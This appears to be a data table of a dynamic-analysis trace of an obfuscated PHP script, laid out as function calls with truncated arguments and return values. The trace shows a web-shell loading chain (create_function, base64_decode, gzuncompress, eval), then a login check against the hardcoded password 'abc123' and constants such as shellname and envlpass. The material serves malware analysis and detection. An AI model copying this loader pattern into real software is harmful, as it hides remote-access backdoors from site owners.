

Values plotted in this chart, from the file beside it:
uuid, file_md5, index, source, target, argc, argv, return, dynamic
301fcb63d20a63337b30392cfc291d41, c83f2e8f667ddac31ebb7fb44b14d477, 0, __main__, zend_compile_file, 2.0, {"value": []}, {"value": "26262609413C39413C3A413C08080…, []
301fcb63d20a63337b30392cfc291d41, c83f2e8f667ddac31ebb7fb44b14d477, 1, __main__, error_reporting, 1.0, {"value": [[0, "new_error_level", 5]]}, {"value": "void"}, [0]
301fcb63d20a63337b30392cfc291d41, c83f2e8f667ddac31ebb7fb44b14d477, 2, __main__, set_time_limit, 1.0, {"value": [[0, "seconds", 0]]}, {"value": "void"}, [0]
301fcb63d20a63337b30392cfc291d41, c83f2e8f667ddac31ebb7fb44b14d477, 3, __main__, header, 1.0, {"value": [[0, "header", "content-Type: …, {"value": "void"}, [0]
301fcb63d20a63337b30392cfc291d41, c83f2e8f667ddac31ebb7fb44b14d477, 4, __main__, zend_fetch_r_get, 1.0, {"value": [[0, "op1", "_GET"]]}, {"value": []}, [0]
301fcb63d20a63337b30392cfc291d41, c83f2e8f667ddac31ebb7fb44b14d477, 5, __main__, create_function, 2.0, {"value": [[0, "args", ""], [1, "code", …, {"value": "\\x00lambda_1"}, [0, 0]
301fcb63d20a63337b30392cfc291d41, c83f2e8f667ddac31ebb7fb44b14d477, 6, create_function, zend_compile_string, 2.0, {"value": [[0, "source_string", "functio…, {"value": "003E"}, [0]
301fcb63d20a63337b30392cfc291d41, c83f2e8f667ddac31ebb7fb44b14d477, 7, __main__, __lambda_func, 0.0, {"value": []}, {"value": null}, []
301fcb63d20a63337b30392cfc291d41, c83f2e8f667ddac31ebb7fb44b14d477, 8, __lambda_func, base64_decode, 1.0, {"value": [[0, "str", "\r\neJzs/fl3HNd5J…, {"value": "x\\x9c\\xec\\xfd\\xf9w\\x1c\\…, [0]
301fcb63d20a63337b30392cfc291d41, c83f2e8f667ddac31ebb7fb44b14d477, 9, __lambda_func, gzuncompress, 1.0, {"value": [[0, "data", "x\\x9c\\xec\\xfd…, {"value": "ob_start();\r\ndefine('myaddr…, [0]
301fcb63d20a63337b30392cfc291d41, c83f2e8f667ddac31ebb7fb44b14d477, 10, __lambda_func, eval, 1.0, {"value": [[0, "phpcode", "ob_start();\r…, {"value": null}, [0]
301fcb63d20a63337b30392cfc291d41, c83f2e8f667ddac31ebb7fb44b14d477, 11, eval, zend_compile_string, 2.0, {"value": [[0, "source_string", "ob_star…, {"value": "3C415051423C41423C41423C41423…, [0]
301fcb63d20a63337b30392cfc291d41, c83f2e8f667ddac31ebb7fb44b14d477, 12, eval, ob_start, 0.0, {"value": []}, {"value": "void"}, []
301fcb63d20a63337b30392cfc291d41, c83f2e8f667ddac31ebb7fb44b14d477, 13, eval, zend_fetch_r_server, 1.0, {"value": [[0, "op1", "_SERVER"]]}, {"value": []}, [0]
301fcb63d20a63337b30392cfc291d41, c83f2e8f667ddac31ebb7fb44b14d477, 14, eval, define, 2.0, {"value": [[0, "constant_name", "myaddre…, {"value": "void"}, [0, 0]
301fcb63d20a63337b30392cfc291d41, c83f2e8f667ddac31ebb7fb44b14d477, 15, eval, define, 2.0, {"value": [[0, "constant_name", "envlpas…, {"value": "void"}, [0, 0]
301fcb63d20a63337b30392cfc291d41, c83f2e8f667ddac31ebb7fb44b14d477, 16, eval, define, 2.0, {"value": [[0, "constant_name", "shellna…, {"value": "void"}, [0, 0]
301fcb63d20a63337b30392cfc291d41, c83f2e8f667ddac31ebb7fb44b14d477, 17, eval, define, 2.0, {"value": [[0, "constant_name", "myurl"]…, {"value": "void"}, [0, 0]
301fcb63d20a63337b30392cfc291d41, c83f2e8f667ddac31ebb7fb44b14d477, 18, eval, get_magic_quotes_gpc, 0.0, {"value": []}, {"value": false}, []
301fcb63d20a63337b30392cfc291d41, c83f2e8f667ddac31ebb7fb44b14d477, 19, eval, zend_fetch_r_cookie, 1.0, {"value": [[0, "op1", "_COOKIE"]]}, {"value": []}, [0]
301fcb63d20a63337b30392cfc291d41, c83f2e8f667ddac31ebb7fb44b14d477, 20, eval, md5, 1.0, {"value": [[0, "str", "abc123"]]}, {"value": "e99a18c428cb38d5f260853678922…, [0]
301fcb63d20a63337b30392cfc291d41, c83f2e8f667ddac31ebb7fb44b14d477, 21, eval, zend_fetch_r_post, 1.0, {"value": [[0, "op1", "_POST"]]}, {"value": []}, [0]
301fcb63d20a63337b30392cfc291d41, c83f2e8f667ddac31ebb7fb44b14d477, 22, eval, zend_fetch_r_post, 1.0, {"value": [[0, "op1", "_POST"]]}, {"value": []}, [0]
301fcb63d20a63337b30392cfc291d41, c83f2e8f667ddac31ebb7fb44b14d477, 23, eval, islogin, 2.0, {"value": [[0, "shellname", ""], [1, "my…, {"value": "void"}, [0, 0]
